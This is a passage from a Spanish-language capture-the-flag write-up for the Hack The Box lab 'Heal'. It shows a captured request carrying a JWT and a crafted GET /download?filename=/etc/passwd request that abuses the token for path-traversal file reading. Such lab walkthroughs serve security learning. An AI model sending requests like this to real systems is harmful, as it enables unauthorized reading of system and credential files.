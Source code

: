 ~~~ json
{"errors":"Invalid token"}
~~~

Analizando solicitudes anteriores podemos ver que cuando hacemos clic en `Export as PDF`, veremos que estamos enviando un JWT para autenticarnos en el servidor

~~~ http
POST /exports HTTP/1.1
Host: api.heal.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/json
Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoyfQ.73dLFyR_K1A7yY9uDP6xu7H1p_c7DlFQEoN1g-LFFMQ
Content-Length: 2638
Origin: http://heal.htb
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://heal.htb/
Priority: u=0
~~~

Agregaremos la cabecera `Authorization` a nuestra solicitud HTTP a modo de autenticación, la solicitud se vería más o menos de la siguiente forma

~~~ http
GET /download?filename=/etc/passwd HTTP/1.1
Host: api.heal.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: */*
Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoyfQ.73dLFyR_K1A7yY9uDP6xu7H1p_c7DlFQEoN1g-LFFMQ
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Access-Control-Request-Method: GET
Access-Control-Request-Headers: authorization
Referer: http://heal.htb/
Origin: http://heal.htb
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Priority: u=4
~~~
